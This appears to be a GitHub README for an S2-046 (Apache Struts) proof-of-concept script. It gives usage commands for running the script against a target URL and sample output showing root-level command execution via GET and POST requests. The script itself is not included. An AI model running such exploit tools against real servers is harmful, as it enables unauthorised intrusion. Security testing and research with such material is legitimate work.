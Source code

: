 # S2-046_POC
##  Usage:
    ./s2_046.sh [url]
    
##  Sample:
  
  1. chmod +x ./s2_046.sh       
  2. ./s2_046.sh http://172.16.152.135/index.action`
    
##  OUTPUT:
================HTTP GET Method================<br />
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
================HTTP POST Method================<br />
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
